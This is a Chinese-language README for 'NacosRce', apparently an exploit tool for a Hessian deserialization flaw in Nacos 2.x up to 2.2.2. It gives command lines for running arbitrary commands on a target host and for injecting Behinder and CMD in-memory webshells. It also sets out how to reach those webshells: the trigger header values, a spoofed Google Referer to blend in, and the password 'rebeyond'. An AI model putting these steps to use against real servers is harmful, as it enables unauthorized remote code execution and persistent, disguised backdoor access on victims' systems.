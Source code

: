 <a name="QnUES"></a>
## Nacos Hessian 反序列化漏洞利用工具 v0.2

```latex

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
<br />Author: 刨洞安全 && 凉风<br />**食用方式 **

1. 执行无回显命令	<br />java -jar NacosRce.jar ip:port "[command]"
2. 同时注入冰蝎&&CMD内存马(推荐)<br />java -jar NacosRce.jar ip:port memshell

1. 冰蝎内存马使用方法：<br />1、需要设置请求头x-client-data:rebeyond<br />2、设置Referer:[https://www.google.com/](https://www.google.com/)<br />3、路径随意<br />4、密码rebeyond
2. CMD内存马使用方法：<br />1、需要设置请求头x-client-data:cmd<br />2、设置Referer:[https://www.google.com/](https://www.google.com/)<br />3、请求头cmd:要执行的命令

v0.2版本实现了：<br />1、不出网漏洞利用<br />2、可多次发起漏洞利用<br />3、注入冰蝎/CMD内存马<br />tips:<br />1、请用jdk1.8<br />2、适用于 Nacos 2.x <= 2.2.2<br />3、非集群的也能打哦

参考文章<br />[https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)<br />[https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-反序列化分析/](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)<br />[https://github.com/Y4er/ysoserial](https://github.com/Y4er/ysoserial)
